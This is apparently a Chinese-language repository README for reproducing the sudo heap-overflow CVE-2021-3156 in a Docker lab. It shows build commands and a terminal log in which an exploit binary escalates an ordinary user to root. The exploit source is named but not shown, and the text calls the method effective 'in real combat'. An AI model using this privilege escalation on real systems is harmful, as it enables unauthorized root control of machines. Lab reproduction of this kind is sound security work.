

# 1. cve-2021-3156

复现环境，利用方式为非交互式，在实战中更为有效

| name  | version         |
| ----- | --------------- |
| sudo  | 1.8.31-1ubuntu1 |
| glibc | 2.31-0ubuntu9.2 |

## 1.1. 复现

创建docker image并启动container

``` bash
docker build . -t cve-2021-3156
docker run -ti cve-2021-3156 /bin/bash
```

## 1.2. 验证

验证cve-2021-3156

``` bash
victim@8f54ce1812d8:~/CVE-2021-3156$ ll
total 44
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ./
drwxr-xr-x 1 victim victim  4096 Feb 18 02:29 ../
-rw-r--r-- 1 victim victim   211 Feb 18 02:02 Makefile
-rwxr-xr-x 1 victim victim 17472 Feb 18 02:29 exploit*
-rw-r--r-- 1 victim victim  3225 Feb 18 02:11 exploit.c
drwxr-xr-x 2 victim victim  4096 Feb 18 02:29 libnss_x/
-rw-r--r-- 1 victim victim   607 Feb 18 02:02 shellcode.c
victim@8f54ce1812d8:~/CVE-2021-3156$ id
uid=1000(victim) gid=1000(victim) groups=1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$ ./exploit id
uid=0(root) gid=0(root) groups=0(root),1000(victim)
victim@8f54ce1812d8:~/CVE-2021-3156$
```

结果图


